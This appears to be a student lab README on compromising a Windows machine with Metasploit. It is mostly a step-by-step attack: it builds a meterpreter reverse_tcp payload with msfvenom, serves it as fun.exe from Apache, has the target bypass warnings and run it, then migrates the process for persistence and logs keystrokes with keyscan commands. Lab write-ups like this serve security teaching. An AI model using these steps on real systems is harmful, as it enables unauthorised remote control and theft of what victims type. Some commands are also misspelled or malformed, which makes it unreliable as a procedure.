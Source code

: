 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit

# Metasploit
Compromising windows using Metasploit

## AIM:
To Compromise windows using Metasploit .

## DESIGN STEPS:
### Step 1:
Install kali linux either in partition or virtual box or in live mode

### Step 2:
Investigate on the various categories of tools as follows:

### Step 3:
Open terminal and try execute some kali linux commands

## PROGRAM:
Find the attackers ip address using ifconfig

## OUTPUT:

![272774215-606e3364-b0b9-43b5-9250-795b7598c04e](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/eb925d99-616c-453c-8f38-d0e8f291c585)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT

![272774237-5dc05fce-63a2-47f9-b694-746b22ba200d](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/2c0e895a-d547-4239-87f1-49f5dafd488a)

copy the fun.exe into the apache /var/www/html folder image
![272774266-480f5425-ce40-497b-8b25-b7ad72bbaed8](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/229ec72b-141c-445e-90d6-8548a482df90)

Start apache server sudo systemctl apache2 start
![272774295-9d9a575a-d0d4-4463-adf7-ee84feedd93b](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/26ef8941-cf20-4a5f-81f7-9ce509f61dac)



Check the status of apache2 image
![272774317-15c93b77-e16e-4fb1-9b41-6a7aeb1cd19b](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/104fbda8-d611-4d54-8db8-c69aa68a7658)

Invoke msfconsole:

## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit image
![272774391-f96bb7a2-4ba8-42d1-8c0e-f8f834e34bdc](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/5a170cb9-00fb-469e-9ce7-ca3debbe8a30)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads. image
![272774478-17e4e8a1-f58e-422e-abd4-b79905434188](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/b320515b-e72f-4698-b928-f9456de8c7ae)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit image
![272774502-ae0f8e8c-f937-4ab1-85ad-1971688afc40](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/599d800c-bfa1-432f-8f87-a98ac2800401)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted image
![272774538-f6588fa0-2bf1-422e-a42f-cf7d687385a6](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/ad84f426-0f0a-40a5-bd0f-aa34113cff15)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name. image
![272774564-5409594d-f21d-4c89-9c27-7e3c5cc2ee27](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/f7d6f8d5-4a84-42ca-be54-a8b536c271c2)

keyscan_dump Shows the keystrokes captured so far image
![272774589-ea183567-a808-4dd4-81ca-9d782aae245c](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/5ab8e4b7-7436-440a-9c26-b66df000cd80)

## RESULT:
The Metasploit framework is used to compromise windows and is examined successfully.





The Metasploit framework is used to compromise windows and is examined successfully.
